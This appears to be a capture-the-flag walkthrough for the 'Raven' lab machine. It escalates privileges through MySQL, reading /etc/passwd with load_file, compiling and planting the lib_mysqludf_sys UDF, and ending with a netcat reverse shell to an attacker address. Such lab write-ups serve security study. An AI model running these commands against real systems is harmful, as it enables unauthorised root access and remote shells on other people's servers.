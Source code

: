 ```

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');


```

### [mysql]
/usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306

$  mysql -u "root" "-pR@v3nSecurity" wordpress
\! ls -l
select load_file("/etc/passwd");
.. ok
load_file("/etc/shadow");
.. ko
SELECT VERSION() ;
5.5.60-0+deb8u1

MySQL is 5.5, we can use the popular EDB-ID 1518 user-defined function or UDF.
https://www.exploit-db.com/exploits/1518
https://github.com/mysqludf/lib_mysqludf_sys

$ uname -a
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

__.so must be 64 bits.__

$ apt install libmariadb-dev
$ apt install libmariadb-dev-compat 
Modify includes in .c
gcc -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys.so lib_mysqludf_sys.c
# readelf -Ws lib_mysqludf_sys.so | grep sys_exec


set an http server : # python -m SimpleHTTPServer 80

get from victim : wget http://11.0.0.21/lib_mysqludf_sys.so
mv lib_mysqludf_sys.so /tmp

$ mysql -Dmysql -uroot -p'R@v3nSecurity'
create database exploittest;
use exploittest;
create table bob(line blob);
insert into bob values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from bob into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so
create function sys_exec returns int soname 'lib_mysqludf_sys.so';
select sys_exec('nc 11.0.0.21 4444 -e /bin/bash');
